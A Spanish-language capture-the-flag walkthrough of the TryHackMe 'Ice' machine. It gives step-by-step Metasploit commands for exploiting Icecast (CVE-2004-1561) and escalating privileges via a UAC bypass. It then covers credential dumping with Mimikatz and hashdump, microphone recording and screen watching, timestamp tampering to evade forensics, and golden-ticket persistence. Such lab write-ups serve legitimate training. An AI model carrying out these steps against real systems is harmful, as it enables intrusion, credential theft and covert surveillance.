 # Guía de Explotación - TryHackMe Ice

## 1. Reconocimiento

### Escaneo inicial con Nmap

Hacemos un escaneo con nmap con el siguiente comando:

![alt text](./assets/image.png)

```bash
nmap -A -p- -T4 IP_MAQUINA_ATACADA
```

#### Explicación de los parámetros:
- `-A`   -> Activar detección de SO, escaneo de scripts y traceroute.
- `-p-`  -> Escanea todos los puertos (1-65535).
- `-T4`  -> Define la velocidad del escaneo (agresivo).

Con este escaneo podemos identificar:

- El puerto donde está corriendo el servicio de Microsoft Remote Desktop (MSRDP).
- El nombre del servicio que se ejecuta en el puerto 8000.
- El nombre del host de la máquina objetivo.

## 2. Obtener acceso

Vuscamos el la siguiente pagia web `https://www.cvedetails.com/` el CVE que es y su impacto, en este caso es el CVE-2004-1561 con un impacto de 6.4.

![alt text](./assets/image-1.png)

Buscamos en la página web [CVE Details](https://www.cvedetails.com/) información sobre la vulnerabilidad. En este caso, encontramos el CVE-2004-1561 con un impacto de 6.4.

Procedemos a utilizar Metasploit para buscar y ejecutar un exploit adecuado. Para ello, iniciamos la consola con el siguiente comando:

```bash
msfconsole
```

Buscamos exploits relacionados con `icecast` mediante:

```bash
search icecast
```

![alt text](./assets/image-2.png)

Seleccionamos el exploit identificado con:

```bash
use 0
```

Verificamos los parámetros requeridos:

```bash
show options
```

![alt text](./assets/image-3.png)

Configuramos los parámetros necesarios:

```bash
set LHOST NUESTRA_IP
set RHOST IP_VICTIMA
show options
```

![alt text](./assets/image-4.png)

Ejecutamos el ataque:

```bash
run
```

## 3. Escalada de Privilegios

Verificamos el usuario que ejecuta el proceso Icecast con:

```bash
ps
```

![alt text](./assets/image-6.png)

Obtenemos información del sistema operativo y su arquitectura:

```bash
sysinfo
```

![alt text](./assets/image-9.png)

Realizamos un reconocimiento más profundo con:

```bash
run post/multi/recon/local_exploit_suggester
```

![alt text](./assets/image-10.png)

Identificamos el exploit `exploit/windows/local/bypassuac_eventvwr` como una posible opción para la escalada de privilegios.

Ponemos en segundo plano la sesión actual:

```bash
background
```
o con la combinación de teclas `CTRL + Z`.

Utilizamos el exploit:

```bash
use exploit/windows/local/bypassuac_eventvwr
show options
```

Seleccionamos la sesión activa:

```bash
set session 1
```

![alt text](./assets/image-11.png)

Configuramos `LHOST` con nuestra dirección IP y ejecutamos el exploit:

```bash
set LHOST NUESTRA_IP
```

![alt text](./assets/image-12.png)

Ejetuamos el exploit 

```bash
run
```

![alt text](./assets/image-13.png)

Verificamos los privilegios adquiridos:

```bash
getprivs
```

Si encontramos `SeTakeOwnershipPrivilege`, hemos logrado la escalada de privilegios.


## 4. Looting (Recolección de Información)

Migramos el proceso a `spoolsv.exe`:

```bash
migrate -N spoolsv.exe
```

![alt text](./assets/image-14.png)

Verificamos el usuario con:

```bash
getuid
```

![alt text](./assets/image-15.png)

Si vemos `NT AUTHORITY\SYSTEM`, hemos obtenido el control total.

Cargamos Mimikatz para la extracción de credenciales:

```bash
load kiwi
```

![alt text](./assets/image-16.png)

Obtenemos todas las credenciales almacenadas:

```bash
creds_all
```

![alt text](./assets/image-17.png)


## 5. Post-Explotación

Volcamos los hashes de contraseñas almacenados en el sistema:

```bash
hashdump
```

![alt text](./assets/image-18.png)

Habilitamos el acceso a escritorio remoto:

```bash
run post/windows/manage/enable_rdp
```

![alt text](./assets/image-21.png)

- **Monitoreo en tiempo real del escritorio del usuario remoto:**

  ```bash
  screenshare
  ```
![alt text](./assets/image-19.png)

- **Grabación del micrófono:**

  ```bash
  record_mic
  ```

- **Modificación de marcas de tiempo de archivos para evadir análisis forenses:**

  ```bash
  timestomp
  ```

- **Persistencia mediante ataques de tickets dorados en Kerberos:**

  ```bash
  golden_ticket_create
  ```

![alt text](./assets/image-20.png)

Este comando requiere de opciones extra para su funcionamiento.


¡Máquina comprometida con éxito!
